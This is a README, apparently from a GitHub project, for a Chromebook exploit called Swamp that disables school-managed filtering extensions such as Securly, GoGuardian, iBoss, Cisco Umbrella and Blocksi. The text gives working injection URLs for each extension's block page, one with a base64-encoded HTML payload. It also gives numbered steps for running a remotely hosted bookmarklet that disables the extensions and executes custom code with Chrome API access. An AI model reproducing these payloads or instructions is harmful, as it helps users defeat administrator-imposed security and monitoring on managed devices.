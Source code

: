 ```yaml
---
title: point-blank-new-swamp
---
```


-e 
Run bookmarklets on privileged pages with Swamp (New Point-Blank).
Bookmarklets must not be blocked by policy to perform this exploit.

Swamp functions like LTBEEF, the GUI-based exploit which Bypassi originally created for disabling extensions. 
However, unlike LTBEEF, Swamp still remains unpatched on versions post-v102 up to even v107.

This will allow you to:
-> Disable force-installed extensions similarly to LTBEEF even on Chrome 107 where it's patched
-> Run bookmarklets on any page even when they are blocked
-> Break extensions until a powerwash (or until you choose to turn it back on)
-> Run a custom DNS to block network requests without actually being on a DNS
-> Run your own custom code with access to most of the Chrome API

Securly:
chrome-extension://iheobagjkfklnlikgihanlhcddjoihkg/blocked.html?category=PGEgaHJlZj0iYWJvdXQ6YmxhbmsiIHRhcmdldD0iX2JsYW5rIiByZWw9Im9wZW5lciIgc3R5bGU9IiBiYWNrZ3JvdW5kOiB3aGl0ZTsgY29sb3I6IGJsYWNrOyBkaXNwbGF5OiBibG9jazsgaGVpZ2h0OiAzODBweDsgdHJhbnNmb3JtOiBzY2FsZSgyLjUpOyBkaXNwbGF5OiBmbGV4OyBqdXN0aWZ5LWNvbnRlbnQ6IGNlbnRlcjsgYWxpZ24taXRlbXM6IGNlbnRlcjsgIj48ZGl2PkNsaWNrIE1lPC9kaXY%2BIDwvYT4%3D
If it says blocked by Chrome, reload. Also, Securly has patched this for newer versions of the extension, if it doesn't work, don't make an issue
Also, if it doesn't work, try the new securly link, same issues apply:
chrome-extension://joflmkccibkooplaeoinecjbmdebglab/blocked.html?category=PGEgaHJlZj0iYWJvdXQ6YmxhbmsiIHRhcmdldD0iX2JsYW5rIiByZWw9Im9wZW5lciIgc3R5bGU9IiBiYWNrZ3JvdW5kOiB3aGl0ZTsgY29sb3I6IGJsYWNrOyBkaXNwbGF5OiBibG9jazsgaGVpZ2h0OiAzODBweDsgdHJhbnNmb3JtOiBzY2FsZSgyLjUpOyBkaXNwbGF5OiBmbGV4OyBqdXN0aWZ5LWNvbnRlbnQ6IGNlbnRlcjsgYWxpZ24taXRlbXM6IGNlbnRlcjsgIj48ZGl2PkNsaWNrIE1lPC9kaXY%2BIDwvYT4%3D

iBoss:
chrome-extension://kmffehbidlalibfeklaefnckpidbodff/restricted.html?re=1&bc=%3Ca+href=%22about:blank%22%20rel=%22opener%22%20target=%22_blank%22%3Ehi%3C/a%3E

Cisco Umbrella:
chrome-extension://jcdhmojfecjfmbdpchihbeilohgnbdci/debug.html?error=%3Ca%20href%3D%22about:blank%22%20rel%3D%22opener%22%20target%3D%22_blank%22%3Ehey%3C/a%3E

Blocksi:
chrome-extension://ghlpmldmjjhmdgmneoaibbegkjjbonbk/pages/blockPage.html?blockurl={%22hostname%22:%22%3Ca%20href=%27//%27%20rel=%27opener%27%20target=%27_blank%27%3Etest%3C/a%3E%22}

GoGuardian:
chrome-extension://haldlgldplgnggkjaafhelgiaglafanh/teacher/lesson-plans/blocked.html?cs=[1,{%22name%22:%22%3Ca%20href=%27about:blank%27%20rel=%27opener%27%20target=%27_blank%27%3ECLICK%20ME%3C/a%3E%22}]
If your school updated GoGuardian, this exploit may not work.

Instructions:
1. Bookmark the code in this link: https://raw.githubusercontent.com/3kh0/ext-remover/main/newpointblank.js
2. Go to the link your extension matches to above.
3. Most of these links are a block page. This is intentional.
4. Each page should have a blue link. Click the link on the page.
5. If it opens a blank page, click the bookmarklet that you just made.
6. Click either hard disable or soft disable. Soft disable will only disable extensions until you restart your Chromebook.

Notes:
-> You can also run scripts and code.
-> However, your extension may disable javascript running on it so running your own code may not work.
-> It is recommended to do soft disable, which only disables it until restart.

- https://discord.com/channels/419123358698045453/1040775494406250548 -
Credits:
https://github.com/3kh0/ext-remover
3kh0
Idea from Bypassi#7037

https://github.com/titaniumnetwork-dev/Oxide-Docs/blob/master/docs/kajigs.mdx
Titanium Network
